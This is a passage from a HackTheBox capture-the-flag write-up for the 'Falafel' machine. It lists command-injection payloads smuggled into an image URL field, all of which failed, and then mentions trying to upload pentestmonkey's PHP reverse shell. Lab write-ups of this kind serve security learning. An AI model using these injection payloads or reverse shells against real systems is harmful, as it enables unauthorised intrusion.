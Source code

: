 ![output-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Falafel/img/output-17.png)


I see a real possibility for a command injection here. 


I spent quite a bit of time testing different payloads. For example:

```bash
http://10.10.14.52/empty.png;id#
http://10.10.14.52/emp$(id)ty.png
'';id
http://10.10.14.52/em`id`pty.png
http://10.10.14.52/%0Aid#empty.png
http://10.10.14.52/em'id#pty.png
http://10.10.14.52/empty.png%00id#
```

And many more, all failed. There is quite good user input validation going on here. 


Next, I turned to file upload bypasses. I tried to upload [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)'s PHP reverse shell instead of an image. 
